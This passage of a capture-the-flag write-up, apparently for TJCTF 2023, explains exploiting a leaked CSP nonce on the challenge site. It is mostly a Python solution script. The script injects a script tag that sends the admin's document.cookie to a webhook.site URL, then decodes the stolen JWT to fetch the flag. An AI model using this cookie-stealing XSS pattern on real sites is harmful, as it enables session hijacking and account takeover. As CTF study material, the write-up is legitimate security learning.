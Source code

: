 ![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/8_tjctf2023/tjctf_5.png)

With the given nonce value, we can now create an **XSS** payload to send to the admin. It is crucial to obtain the admin's cookies, as the endpoint leading to the flag is present within the JWT token. Below is the solution script I developed during the CTF:

```python
import requests, urllib3, base64, json
urllib3.disable_warnings()

cookies = {
    'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE2ODUyMDY4NjYsIm5vbmNlIjoiNmNmYTQ2MGMzNGQzYjQ0ODc2N2ViNDdlZGI5YTczZDAzMDYxZTkxM2NkOGE3ZDcxMjM0MGNjZGY4YjM0MmMzNiIsInVzZXJJZCI6ImIxNzQ4MTU0LTg5ZTktNDJiYi1hMjc5LTNjOWU0NmVlOTM3YiJ9.n24-3ah7Q1YjfJlA-MgzUXeSAVh8WiTWpKfCqrVU9Z8',
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

data = {
    'name': 'test',
    'toDo': '<script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">document.location="https://webhook.site/cc03ff0d-5728-482d-ad83-6a305fd0e4a7/?c="+document.cookie</script>',
}

# (1) Generate XSS payload
response = requests.post('https://yolo.tjc.tf/', cookies=cookies, headers=headers, data=data, verify=False,allow_redirects=False)
locations = "https://yolo.tjc.tf"+response.headers['Location']
print(f"[+] Send to admin this link : {locations}")

# (2) Send to Admin
cookies_b64 = input("[+] Enter cookies values : ")
userid = json.loads(base64.b64decode(cookies_b64.split(".")[1]).decode())['userId']

# (3) Get Flag
response = requests.get(f'https://yolo.tjc.tf/do/{userid}')
for i in response.text.split():
        if "tjctf" in i:
                print(i)
                break
```
